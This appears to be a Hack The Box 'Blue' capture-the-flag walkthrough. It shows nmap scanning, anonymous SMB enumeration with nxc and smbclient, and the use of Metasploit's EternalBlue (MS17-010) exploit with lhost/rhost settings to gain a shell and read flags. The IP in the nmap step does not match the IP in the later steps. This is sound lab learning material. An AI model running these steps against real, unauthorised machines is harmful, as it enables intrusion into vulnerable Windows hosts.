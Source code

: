# -HTB-Blue

### Start with a nmap scan
```
nmap -sVC -p- 10.10.10.95 -oN nmap_scan --min-rate 5000
```
> - `-sVC`: Detect service/version /// Run default scripts
> - `-oN`: Output to file (normal format)
> - `--min-rate 5000`: Fast scan 5000 p/s


<img width="917" height="694" alt="image" src="https://github.com/user-attachments/assets/fbfe642a-ecf9-467d-8296-a4db89ac7e44" />


### We see the smb it s open so we use nxc and try anonymus loggin:
```
nxc smb 10.10.10.40 -u "" -p "" 
```
<img width="1355" height="78" alt="image" src="https://github.com/user-attachments/assets/fdd80c02-c259-4e0d-9128-1afaa00c0709" />


### I use --shares to enumereate the shares as the Guest account  :
```
nxc smb 10.10.10.40 -u "Guest" -p "" --shares
```


<img width="1324" height="209" alt="image" src="https://github.com/user-attachments/assets/627ea548-6da3-4e8a-9969-42103bd03a17" />

### After i use smbclient to connect to the smb with -N ( no pass ) 
```
smbclient //10.10.10.40/Users -N
```
<img width="690" height="178" alt="image" src="https://github.com/user-attachments/assets/b2dbbb4f-20a9-42a9-82cc-1370d02cff97" />

### After allot of file ... i got back to the nmap scan and search on google : "Windows 7 Professional 6.1 exploit smb" .And find that has an remote code execution on the smb name as : EternalBlue Exploit | MS17-010  // And matasplot has an exploit we can use 

<img width="1383" height="784" alt="image" src="https://github.com/user-attachments/assets/35a7faba-30d7-4ca0-b6f1-65cc8e18053a" />

- set lhost <YOUR $IP>
- set rhost 10.10.10.40

<img width="181" height="47" alt="image" src="https://github.com/user-attachments/assets/a3d4c8cd-f61c-4c3c-9fc1-a7306732dc2d" />

### And we find the users in flag :
```
C:\Users\haris\Desktop
```

<img width="569" height="163" alt="image" src="https://github.com/user-attachments/assets/5c92b9ca-6967-4dfd-bb70-d971d67e7ac7" />


### And the root in flag:
```
C:\Users\Administrator\Desktop
```
<img width="564" height="165" alt="image" src="https://github.com/user-attachments/assets/229c097e-9d7d-450c-a4c9-98e1bb5f635e" />
